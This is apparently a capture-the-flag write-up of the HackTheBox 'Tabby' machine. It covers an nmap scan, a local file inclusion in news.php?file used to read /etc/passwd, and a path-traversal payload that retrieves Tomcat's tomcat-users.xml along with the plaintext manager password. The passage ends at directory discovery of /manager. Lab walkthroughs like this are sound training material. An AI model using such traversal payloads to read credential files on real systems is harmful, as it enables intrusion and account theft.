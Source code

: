 First what i did is scan by nmap
```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-19 21:48 CEST
Nmap scan report for 10.10.10.194
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 453c341435562395d6834e26dec65bd9 (RSA)
|   256 89793a9c88b05cce4b79b102234b44a6 (ECDSA)
|_  256 1ee7b955dd258f7256e88e65d519b08d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
We can see on port 8080 tomcat, intuition told me there will be vuln :P
But what i did is check the port 80, did small manual recon. I found this in source code, we need add this into /etc/hosts ```<li><a href="http://megahosting.htb/news.php?file=statement">News</a></li>``` Thne let's go check what on the domain. First thought what's come to mind is LFI, i think the ?file can be vulnerability. Turn on the burp and intercept traffic. And that how i say, there was a LFI, i got /etc/passwd

![image](https://github.com/Anogota/Tabby/assets/143951834/b8443ca3-ed3c-4670-af3d-59272b0e7d5e)

Now when we know there is LFI, we need to get some intresting file, maybe tomcat have some passowrd for user. In pass this user looks intresting ```ash:x:1000:1000:clive:/home/ash:/bin/bash``` Now let's go little bit search about it. First what i recommend in this situation is doc. And i found in doc this ```The users file (by default, conf/tomcat-users.xml must be an XML document, with a root element <tomcat-users>. ```. But i have no idea and i decide to go 10.10.10.194:8080, there was a version of tomcat.
This is a ```Tomcat veterans might be pleased to learn that this system instance of Tomcat is installed with CATALINA_HOME in /usr/share/tomcat9 and CATALINA_BASE in /var/lib/tomcat9, following the rules from /usr/share/doc/tomcat9-common/RUNNING.txt.gz.``` tomcat9, now when we have version of tomcat let's do something with this LFI, but this below conf/tomcat-users.xml don't work. But i also find another path to get a tomcat-user
```
/etc/tomcat6/
├── Catalina
│   └── localhost
│       ├── ROOT.xml
│       └── solr.xml -> ../../../solr/solr-tomcat.xml
├── catalina.properties
├── context.xml
├── logging.properties
├── policy.d
│   ├── 01system.policy
│   ├── 02debian.policy
│   ├── 03catalina.policy
│   ├── 04webapps.policy
│   ├── 05solr.policy -> /etc/solr/tomcat.policy
│   └── 50local.policy
├── server.xml
├── tomcat-users.xml
└── web.xml
```
But this also don't work. But after few atempt i create this ```../../../../usr/share/tomcat9/etc/tomcat-users.xml ``` and by this i got ```  <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>``` Okay we have another step in lab.
Now we need to figure out where we can use this credentials, let's go find some directory on port 8080 i foudn some directorys 
```
docs                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 59ms]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 55ms]
```
Manager look's intresting, let's go into this directory.
